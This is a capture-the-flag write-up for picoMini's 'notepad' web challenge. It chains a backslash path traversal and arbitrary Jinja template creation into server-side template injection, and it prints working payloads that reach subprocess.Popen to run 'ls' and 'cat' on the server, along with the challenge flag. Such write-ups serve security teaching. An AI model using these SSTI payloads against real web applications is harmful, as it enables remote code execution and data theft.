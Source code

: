 ```yaml
---
title: picoMini by redpwn 2021 - notepad (web)
date: 2021-05-12
slug: /writeups/picomini-redpwn-notepad
excerpt: Writeup for notepad (web)
author: Diana Lin
---
```


Notepad was a web exploitation challenge from picoMini by redpwn 2021.

# Description
> This note-taking site seems a bit off.
>
> [notepad.mars.picoctf.net](https://notepad.mars.picoctf.net)

Files:
* [notepad.tar](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar)

The application is a simple note-taking site. When a new note is created, a file in the static folder is created, and the client is redirected to the file.

# Directory Traversal
We were provided a source so I checked that out. I first noticed the filters on the note's `content`.
```py
if "_" in content or "/" in content:
    return redirect(url_for("index", error="bad_content"))
```

The filter on `/` indicates that path traversal should be prevented. However, the created file's `name` looks odd.
```py
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
with open(name, "w") as f:
  f.write(content)
```

The filename is the first 128 characters of the content and a random token. It's a bit weird that they're normalizing the path with `url_fix(content[:128])`; that's our first vulnerability. Even though `/` is filtered, `\` is not, and `url_fix()` would normalize the backslashes to be `/`. We could use this to traverse the filesystem.

# Arbitrary Template Creation
Remember that error from the filter on `content`? That comes in handy now. On the index page, the error can be set to any arbitrary value by simply passing in another value to the `error` query parameter:
```
https://notepad.mars.picoctf.net/?error=error_name
```

This value is then used as the filename for a Jinja template in the `errors` subdirectory.
```html
{% if error is not none %}
  <h3>
    error: {{ error }}
  </h3>
  {% include "errors/" + error + ".html" ignore missing %}
{% endif %}
```

How is this useful? Well, we can create our own error template by using our path traversal technique to create a file in the `templates/errors` folder. This new template can then be rendered on the index page if we pass it in as a query parameter.

We can test a sample payload now:
```
..\templates\errors\
```

If we paste that into the text area on the index page and submit, we get redirected to a `Not Found` error page. Not to worry! Since we wrote to a file outside of the static folder, we can't access it from `/static/...`, which resulted in the 404. However, we can check out our payload by passing our filename (minus extension) into `error`. The path I got redirected to was `/templates/errors/-lww21e3EmpA.html` so I went to:
```
https://notepad.mars.picoctf.net/?error=-lww21e3EmpA
```

Lo and behold, our payload was printed back to us!

# Server-Side Template Injection
Since the error page is included as a Jinja template and not as a static page, we can utilize a server-side template injection to retrieve the flag. I found a great [reference](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) that detailed how to implement a SSTI with the Jinja template engine.


After the path of the `errors` folder, I padded the payload with `a` characters so that none of the injection was stored in the filename. While this is optional, I found that it made the request much cleaner because the filename isn't url encoded.

The next step is to find the `string` class. This is usually done with `''.__class__` but because of the filter on underscores, we can't insert `__class__` directly into the `content` parameter. We can, however, insert it into a different query parameter and reference it that way. We can then get the string class's [method resolution order](https://www.geeksforgeeks.org/method-resolution-order-in-python-inheritance/) using `mro()`.

The second class in the `string` class's MRO is the `object` class so we can index to 1.
```py
[<class 'str'>, <class 'object'>]
```

If we call `object.__subclasses__()`, we can access all the classes that are available. Since underscores are filtered, we can access the function the same way we accessed `__class__`. Our full payload is now:
```py
p = "..\\templates\\errors\\" + "a" * 128 + "{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]() }}"
```

When we access the index page with the filename passed into `error`, we get an internal server error. This is because we didn't pass in the `class` or `subclasses` query parameters. After setting them to `__class__` and `__subclasses__`, respectively, a whole bunch of stuff is rendered.

![subclasses](./subclasses.png)

Nice! We got a whole bunch of classes from that. The most important of those is `subprocess.Popen`. To find the index of that class more easily, I pasted the stringified list into a Python shell (as a string), split the list on `, `, and called `l.index(" <class 'subprocess.Popen'>")` to find that the `subprocess.Popen` class is at index 273. That means that we can create a new `Popen` object to execute some pretty useful commands.

The provided Dockerfile showed that the flag is located in the app's root directory with a random UUID appended to it. Therefore, we need to find the flag's filename; we can `ls` the root directory and return the result with this injection:
```py
{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]()[273](['ls'], stdout=-1).communicate() }}
```

The flag's filename is `flag-c8f5526c-4122-4578-96de-d7dd27193798.txt`. Last but not least, we can `cat` the flag:
```py
{{ ''[request.args.get('class')].mro()[1][request.args.get('subclasses')]()[273](['cat', 'flag-c8f5526c-4122-4578-96de-d7dd27193798.txt'], stdout=-1).communicate() }}
```

# Flag
```
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```